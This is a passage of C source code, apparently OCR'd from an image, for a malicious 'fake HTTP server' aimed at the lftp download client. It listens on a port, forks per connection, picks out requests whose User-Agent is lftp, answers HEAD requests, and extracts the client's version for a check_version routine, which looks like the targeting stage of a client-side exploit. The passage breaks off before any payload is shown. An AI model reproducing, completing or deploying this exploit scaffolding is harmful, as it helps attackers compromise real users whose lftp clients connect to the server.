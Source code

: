       memset(data,0,1024);

      fprintf(stdout,"[+] Setting up a fake HTTP server...\n");

      fd = socket(AF_INET,SOCK_STREAM,0);
      if(fd < 0)
      {
        fprintf(stderr,"[-] %s\n",strerror(errno));
        exit(1);
      }

      s.sin_family = AF_INET;
      s.sin_port = htons(port);
      s.sin_addr.s_addr = 0;

      bind(fd,(struct sockaddr *) &s,sizeof(s));
      listen(fd,1);
      size = sizeof(s);

      fprintf(stdout,"[+] Awaiting connection on port %i\n",port);

      while(1)
      {
        cancel = 0;
        fd2 = accept(fd,(struct sockaddr *) &s, &size);

        if(!fork())
        {
          close(fd);
          while(1)
          {
          memset(data,0,1024);
          r = read(fd2,data,1024);
          if((ptr = strstr(data,"User-Agent: lftp")) != NULL)
          {
            if(strstr(data,"HEAD"))
            {
              fprintf(stdout,"[%s] HEAD request received.\n",inet_ntoa(s.sin_addr));
              size = send(fd2, OK, strlen(OK), 0);
              if(size < 0)
              {
              fprintf(stderr,"[-] %s\n",strerror(errno));
              close(fd2);
              exit(1);
              }
            }
            if(strstr(data,"GET"))
            {
              memset(request,0,512);
              memset(version,0,32);

              strncpy(version,ptr+12,10);
              version[sizeof(version)-1] = '\0';

              fprintf(stdout,"[%s] GET request received.\n",inet_ntoa(s.sin_addr));
              fprintf(stdout,"[%s] Remote version of lftp: %s ",inet_ntoa(s.sin_addr),version);
              check_version(version);
